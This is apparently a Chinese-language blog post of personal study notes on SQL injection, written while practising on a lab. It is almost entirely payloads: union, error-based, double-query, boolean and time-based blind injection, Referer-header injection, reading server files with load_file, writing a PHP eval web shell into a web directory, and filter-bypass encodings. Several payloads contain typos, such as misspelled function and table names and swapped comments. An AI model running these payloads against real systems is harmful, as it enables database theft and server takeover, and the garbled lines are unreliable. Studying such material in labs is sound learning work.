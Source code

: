 ```yaml
---

layout: post

title: "SQL注入"

date: 2020-12-24 00:00:00 +0800

categories: 学习笔记

---
```


1)	-1' order by xxx  //查询数据列

2)	-1’ union select 1,2,3	//联合查询语句显示位

3)	-1' union select  group_concat(schema_name) from information_schema.schemata	//查询所以数据库名

4)	-1' union select group_concat(table_name) from information_schema.tables where table_schema ='查询的数据库'	//查询数据库内表明 

5)	-1' union select group_concat(column_name) from information_schema.columns where table_name='查询的数据表'	//爆破列名

6)	-1' union select group_concat(password) from 表.列	//查询用户名

7)	-1' union select group_concat(username) from 表.列	//查询密码

//8.0 版本

库	twosecu1_vuln_07

表	word user

列	word	username	password

​					 test				test

​		user	username	password

​					

### 双重查询注入

1)	count(): 汇总数据函数				rand():随机输出一个小于1的正数

​		floor(): 把输入结果取整			 group by: 把结果分组输出

​		concat(): 连接两条语句

2) 1' union select 1,count(1) from information_schema.tables group by concat(floor(rand()x2),version()) 	//通过报错查询版本

3) 1' union select 1,count(1) from information_schema.tables group by concat(floor(rand()x2),detabase())	//查询数据库

4) 1' union select 1,count(1) from information_schema.tables group by concat(floor(rand()x2),(select table_name from information_schema.tables where tables_schema = database()))

5) 1' union select count(1) from information_schema.tables group by concat(floor(rand()*2),(select table_name from information_schema.tables where table_schema=database() limit 2,1)) #

6) 1' union select count(1) from information_schema.tables group by concat(floor(rand()*2),(select column_name from information_columns where table_schema=database() and table_name='user' limit 0,1)) #



7) 1' union select count(1) from information_schema.tables group by concat(floor(rand()*2),(select username from users limit 0,1)) #



### 报错注入

union select 1,extractvalue(1,concat(0x7e,(select version())))	//后面语法不符合 

union select 1,updatexml(1,concat(0x7e,(select version())),1)

union select 1,updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = database())),1)	//查询当前数据表



### 布尔盲注

-1' or (select substr(versrion(),1,1) = '5')	//截取字符串substr

-1' or (select 1 from information_schema.tables where table_schema=database() and substr(table_name,1,1 ) = 'a' order by table_name limit 0,1)	//猜字符表

-1' or (select substr(table_name,1,1) from information_schema.tables where table_schema = database() limit 0,1) = 'a' %23



-1' or (select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema = database() limit 0,1)  >1 %23	//二分法



### 时间盲注

1' or if((select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema = databaser() limit 0,1) >6, sleep(2),0) %23



### HTTP-Referer 注入

insert into xxx(a,b,c)values(''and extractvalue(1,concat(0x7e,@@version)) and' ','')

exc:

'and extractvalue(1,concat(0x7e,@@version)) and'



### 读取写入文件

Load_file(file_name): 读取文件并返回该文件得内容作为一个字符串

A.	必须有权限读取并且文件必须可读

B.	文件需要在服务器上

C.	需要完整路劲

D.	读取的文件大小必须小于 		max_allowed_packet

into outfile ''		//写入数据



-1' union select 1,2,hex(load_file("c://boot.init"))   %23

<?php @eval($_POST[a]);?>

1')) union select 1,2,"<?php @eval($_POST[a]);?>" into outfile "C:\\phpStudyB\\www\\sqli\\Less-7\\a.txt" %23

### 绕过

or = ||		and = &&

%09 = TAB(水平)	%0a = 新建一行

%0c = 新一页	%0d = return 功能

%0b = TAB(垂直)	%a0 = 空格

/**/ = 空格







